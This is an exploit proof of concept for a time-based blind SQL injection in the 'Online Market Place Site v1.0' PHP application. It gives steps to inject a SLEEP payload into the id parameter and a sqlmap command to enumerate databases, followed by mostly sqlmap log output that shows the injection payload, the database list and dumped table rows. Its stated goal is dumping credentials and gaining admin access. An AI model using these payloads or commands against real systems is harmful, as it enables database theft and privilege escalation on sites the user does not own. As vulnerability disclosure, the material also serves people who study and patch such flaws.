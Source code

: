 # Exploit Title: Online Market Place Site v1.0 - Blind SQL Injection
# Exploit Author: NS Kumar (n1_x)
# Date: April 17, 2022
# Vendor Homepage: https://www.sourcecodester.com/php/15273/online-market-place-site-phpoop-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/omps.zip
# Tested on: Parrot Linux, Apache, Mysql
# Vendor: oretnom23
# Version: v1.0
# Exploit Description:
# Online Market Place v1.0 suffers from blind SQL Injection Vulnerability allowing remote attackers to dump all database credential and gain admin access(privilege escalation). 

---------------------------------------- To Exploit ---------------------------------------------------------

Step 1: Register and login as a seller.

Step 2: Goto product page click action and select view product, you can see url like
				http://localhost/omps/seller/?page=products/view_details&id=4

Step 3: The id parameter is the vulnerable one. put the payload '+(select*from(select(sleep(5)))a)+' or copy the url send it to the sqlmap.

step 4: sqlmap query : sqlmap -u http://localhost/omps/seller/?page=products/view_details&id=4 --batch --dbs

step 5: You can Enumerate all database credentials.

--------------------------------------------------------------------------------------------------------------

# Sample Sqlmap log:

	sqlmap identified the following injection point(s) with a total of 133 HTTP(s) requests:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: Apache 2.4.52, PHP 8.1.2
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	sqlmap resumed the following injection point(s) from stored session:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: PHP 8.1.2, Apache 2.4.52
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
available databases [16]:
[*] information_schema
[*] LoginSystem
[*] mims
[*] mysql
[*] omps_db
[*] performance_schema
[*] phpmyadmin

---
	sqlmap resumed the following injection point(s) from stored session:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: PHP 8.1.2, Apache 2.4.52
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	sqlmap resumed the following injection point(s) from stored session:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: PHP 8.1.2, Apache 2.4.52
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	sqlmap resumed the following injection point(s) from stored session:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: PHP 8.1.2, Apache 2.4.52
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	Database: omps_db
	Table: category_list
	[3 entries]
+----+------------------+--------+-------------+-----------------------------------------------------+---------------------+---------------------+
| id | name             | status | delete_flag | description                                         | date_created        | date_updated        |
+----+------------------+--------+-------------+-----------------------------------------------------+---------------------+---------------------+
| 1  | Smartphones      | 1      | 0           | This category is for smartphones product            | 2022-04-12 09:38:20 | 2022-04-12 09:39:42 |
| 2  | Motorcycle Parts | 1      | 0           | This category is for the motorcycles parts products | 2022-04-12 09:40:25 | 2022-04-12 09:40:25 |
| 3  | Car Parts        | 1      | 0           | This category is for car parts products.            | 2022-04-12 09:40:52 | 2022-04-12 09:40:52 |
+----+------------------+--------+-------------+-----------------------------------------------------+---------------------+---------------------+


